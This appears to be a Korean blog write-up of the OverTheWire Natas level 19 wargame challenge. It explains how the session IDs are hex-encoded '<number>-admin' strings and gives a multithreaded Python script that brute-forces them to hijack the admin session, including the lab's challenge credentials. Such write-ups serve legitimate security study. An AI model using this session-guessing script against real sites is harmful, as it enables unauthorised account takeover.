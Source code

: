```yaml
---
title: Natas Level 18 → Level 19 풀이
date: 2024-05-02 21:56:00 +09:00
categories: [wargame, natas]
tags: [natas, wargame]
image:
  path: assets/img/0502/natas19a.png
---
```

<br>
## 로그인
---
> Username: natas19
> <br> URL: <http://natas19.natas.labs.overthewire.org>


<br>
이번에도 admin으로 로그인해야 하는 문제이다.<br>
소스코드는 지난 단계와 비슷하지만, 세션아이디가 순차적이지 않다고 한다.<br>

<br>
<br>
## 풀이
---
username 에는 admin으로, password는 아무거나 입력하면서 세션아이디가 어떻게 나오는지 확인해보았는데,<br>


항상 세션아이디 끝자리는 <b>2d61646d696e</b>로 출력된다.<br>


어떤 규칙으로 인코딩한 게 분명하다.<br>
몇 가지 확인해보았더니 <b>"000-admin"</b> 텍스트를 16진수값으로 변환한 ascii코드였다.<br>
<b>000</b> 자리에는 0부터 999까지의 랜덤숫자로 세션아이디를 생성시키는 듯 하다.<br>


<br>![Desktop View](assets/img/0502/natas19b.png){: w="700" h="400" }<br>


이를 바탕으로 "0-admin"부터 "999-admin"까지 ascii-hex로 변환한 값을 세션아이디로 넣어보는 자동화 프로그램을 쓰면 된다.<br>
<br>
<br>
<br>
## 자동화 프로그램
---
```python
import requests
from concurrent.futures import ThreadPoolExecutor
 
def ascii_to_hex(text):
    return ''.join(f"{ord(c):x}" for c in text)
 
def check_session(prefix):
    url = 'http://natas19.natas.labs.overthewire.org/'
    auth = ('natas19', '8LMJEhKFbMKIL2mxQKjv0aEDdk7zpT0s')
    suffix = '-admin'
    session_text = f"{prefix}{suffix}"
    session_id = ascii_to_hex(session_text)
    cookies = {'PHPSESSID': session_id}
    response = requests.get(url, auth=auth, cookies=cookies)
    if response.status_code == 200:
        print(
            f"Testing session ID: {session_id} ({session_text}), Status: {response.status_code}")
    if "You are an admin" in response.text:
        print(f"Admin session ID found: {session_id} ({session_text})")
        return session_id
    return None
 
def find_session_ids():
    with ThreadPoolExecutor(max_workers=50) as executor:
        # 0부터 999까지의 prefix를 검사
        prefixes = range(1000)
        for result in executor.map(check_session, prefixes):
            if result:
                break
 
find_session_ids()
```


여태까지는 하나씩 넣어서 썼는데, 너무 느려서 스크립트를 병렬로 처리하는 법을 배웠다<i>(from 지피티...)</i><br>


<br>
ThreadPoolExecutor를 사용하여 0부터 999까지에 대해 check_session 함수를 병렬로 실행한다. 각 숫자들은 "-admin"을 붙여 세션ID를 생성하고 웹 서버에 요청을 보내서 "You are an admin"이 포함되어 있는지 검사한다. 그냥 하나씩 보내는 것보다 훨씬 빨리 확인할 수 있다.<br>


<br>
결과:<br>
<br>![Desktop View](assets/img/0502/natas19c.png){: w="700" h="400" }<br>


<br>
이렇게 찾은 세션 아이디를 보내면 natas20 패스워드가 나온다.<br>
<br>![Desktop View](assets/img/0502/natas19d.png){: w="700" h="400" }<br>